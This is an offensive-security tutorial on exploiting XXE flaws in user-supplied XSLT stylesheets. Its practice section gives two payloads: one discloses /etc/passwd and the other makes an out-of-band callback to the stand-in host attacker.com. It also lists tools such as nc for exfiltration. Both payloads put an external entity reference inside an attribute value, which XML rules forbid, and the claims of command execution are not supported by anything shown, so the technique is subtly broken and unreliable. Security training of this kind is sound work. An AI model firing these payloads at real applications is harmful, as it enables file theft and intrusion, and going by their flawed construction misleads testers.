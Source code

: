 ```yaml
---
title: Exploit XXE Vulnerabilities in XSLT Documents
description: Learn how to exploit XXE vulnerabilities within XSLT documents to access
  sensitive data and execute commands.
keywords:
- XXE
- XSLT
- external entity
- vulnerability
- XML
- Saxon
- Xalan
- command execution
- data disclosure
---
```


# XXE Inside XSLT Documents

## Context

In this article, we explore the exploitation of XXE (XML External Entity) vulnerabilities within XSLT (Extensible Stylesheet Language Transformations) documents. Our goal is to demonstrate how attackers can use crafted XSLT documents to disclose sensitive data or execute commands through vulnerable XSLT processors. To follow this guide, you should be familiar with XML structures, XSLT processing, entity declarations, and the general principles of XXE exploitation.

## Theory

### XSLT and Its Role in XML Processing

XSLT, or Extensible Stylesheet Language Transformations, is a language used to transform XML documents into different formats, like HTML or plain text, by applying a set of rules defined in XSLT stylesheets. These stylesheets themselves are written in XML and can include various processing instructions and elements.

The core principle of XSLT processing involves parsing an XML input document and applying transformation logic found in XSLT documents. An XSLT document can contain entity declarations, leading to potential vulnerabilities if not handled securely.

### XXE Attack Surface in XSLT Documents

XSLT processors can become vulnerable to XXE attacks if they are configured to parse untrusted XSLT documents with external entity resolution enabled. An attacker can submit a crafted XSLT document containing malicious external entity declarations. Once parsed by the XSLT processor, these declarations are resolved, which can expose sensitive files or connect to remote resources.

### Processor-Specific XXE Behavior

Entities in XSLT documents are sometimes resolved by the processor's default settings or due to misconfiguration. Some processors, such as Saxon and Xalan, are known to allow entity resolution by default. Applications often trust user-supplied XSLT, assuming they are safe, while in reality, they may offer an attack vector for XXE exploitation.

### Typical XXE Payloads in XSLT

Malicious XSLT can include external entities declared in the DOCTYPE header of the XML document. By judiciously crafting payloads, attackers can evade naive input filters, embedding entities within XSLT templates or parameters to bypass initial security checks.

### Attack Flow: XXE in XSLT

```mermaid
flowchart TD
    A[Attacker crafts XSLT with XXE] --> B[Submit to vulnerable application]
    B --> C[XSLT processor parses XSLT]
    C --> D[External entity resolved]
    D --> E[Sensitive data exfiltrated or command executed]
```

## Practice

### Injecting XXE Payload into XSLT Stylesheet

To exploit XXE in an XSLT document, you need to craft a malicious XSLT include an external entity in the DOCTYPE declaration.

- Craft a malicious XSLT document that contains an external entity in the DOCTYPE. This step prepares the payload for injection.

```xml
<?xml version="1.0"?>
<!DOCTYPE xsl:stylesheet [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="'&xxe;'"/>
  </xsl:template>
</xsl:stylesheet>
```

- Submit the malicious XSLT to the application endpoint that accepts user-supplied stylesheets. Target endpoints may include file upload fields, APIs, or direct input areas.
  
- Trigger the transformation process in the application to parse and execute the XSLT. You might need to submit a separate XML document for transformation to initiate this process.
  
- Observe the output for file content leakage or error messages. Successful exploitation will result in the disclosure of sensitive data or out-of-band interactions with the attacker's infrastructure.

### Out-of-Band XXE via XSLT

- Craft an XSLT document that references an external entity hosted on an attacker-controlled server. This setup can confirm entity resolution through DNS or HTTP callbacks.

```xml
<?xml version="1.0"?>
<!DOCTYPE xsl:stylesheet [
  <!ENTITY xxe SYSTEM "http://attacker.com/xxe">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="'&xxe;'"/>
  </xsl:template>
</xsl:stylesheet>
```

- Monitor the attacker's server for incoming requests. Successful exploitation indicates entity resolution enabled, typically confirmed by a network request reaching your server.

## Tools

- **Burp Suite**
- **Responder**
- **tcpdump**
- **nc**

These tools can assist in crafting the payloads, monitoring network traffic, and aiding in the exploitation process by capturing entity resolution attempts or exfiltrating data. Use them to test XXE vulnerabilities within XSLT processors effectively.